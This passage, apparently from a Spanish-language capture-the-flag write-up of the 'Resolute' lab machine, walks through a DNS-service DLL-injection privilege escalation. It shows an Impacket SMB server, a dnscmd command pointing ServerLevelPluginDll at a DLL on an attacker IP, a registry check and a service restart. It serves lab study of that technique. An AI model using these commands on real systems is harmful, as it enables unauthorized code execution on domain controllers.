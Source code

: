Ahora, con el servidor SMB abierto.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
09/07/2024 10:58:05 PM: INFO: Config file parsed
```

Vamos a cambiar el DLL la próxima vez que el servicio se inicie a nuestro DLL de nuestra máquina que estamos sirviendo a través del SMB.
```console
*Evil-WinRM* PS C:\test> dnscmd resolute /config /serverlevelplugindll \\10.10.14.125\smbFolder\privesc.dll                                       
                                                                                                                                                  
Registry property serverlevelplugindll successfully reset.                                                                                        
Command completed successfully.                                                                                                                   
                              
```

Podemos comprobar que todo ha salido bien.
```console
*Evil-WinRM* PS C:\test> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll                      
                                                                                                                                                  
                                                                                                                                                  
ServerLevelPluginDll : \\10.10.14.125\smbFolder\privesc.dll                                                                                       
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\                   
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS                               
PSChildName          : Parameters                                                                                                                 
PSDrive              : HKLM                                                                                                                       
PSProvider           : Microsoft.PowerShell.Core\Registry                                                                                         
                                                                                                                                                  
                                                                                                                                                  
                                
```
Podemos observar que el valor de `ServerLevelPluginDll` es `\\10.10.14.125\smbFolder\privesc.dll` el cual es nuestro DLL.

Ahora solo falta reiniciar el servicio.
```console
*Evil-WinRM* PS C:\test> sc.exe \\resolute stop dns                                                                                               

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\test> sc.exe \\resolute start dns

```